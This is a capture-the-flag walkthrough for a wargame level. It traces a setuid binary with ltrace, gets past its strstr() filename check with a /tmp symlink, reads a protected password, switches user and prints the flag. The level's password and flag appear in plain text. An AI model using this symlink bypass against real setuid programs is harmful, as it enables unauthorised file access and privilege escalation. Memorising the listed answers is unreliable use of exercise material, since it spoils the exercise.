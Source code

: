 # Level 08

As `level08`, running `ls` gives us a binary called `level08` and a file named `token` which can't be read inside our home folder. Using the binary gives us:

```shell
  $> ./level08
  ./level08 [file to read]
  $> ./level08 token
  You may not access 'token'
```

We want to know what it actually does, so using `ltrace` once again we can see the following.

```shell
  $> ltrace ./level08 token 
  __libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
  strstr("token", "token")                           = "token"
  printf("You may not access '%s'\n", "token"You may not access 'token'
  )       = 27
  exit(1 <unfinished ...>
  +++ exited (status 1) +++
```

> It appears that if [`strstr()`](https://linux.die.net/man/3/strstr) returns something we can't read the file. So we must avoid using `"token"` in the path of the file we want to open.

Creating a **symbolic link** with a different name would help us bypass the read permission on the file and the `strstr()` check. Finaly if we use `ls -l` to get more infos...

```shell
  $> ls -l
  total 16
  -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
  -rw-------  1 flag08 flag08    26 Mar  5  2016 token 
```

User `flag08` owns both files so once redirected to the `token` file via symbolic link, it will open the file without any problems.

```shell
  $> ln -s /home/user/level08/token /tmp/password
  $> ./level08 /tmp/password
  quif5eloekouj29ke0vouxean
```

This looks like a password, use it to log as `flag08`and run `getflag` to finish this level.

```shell
  $> su flag08
  Password: quif5eloekouj29ke0vouxean
  $> getflag
  Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

So, `25749xKZ8L7DkSCwJkT9dyv6f` is the flag for this level.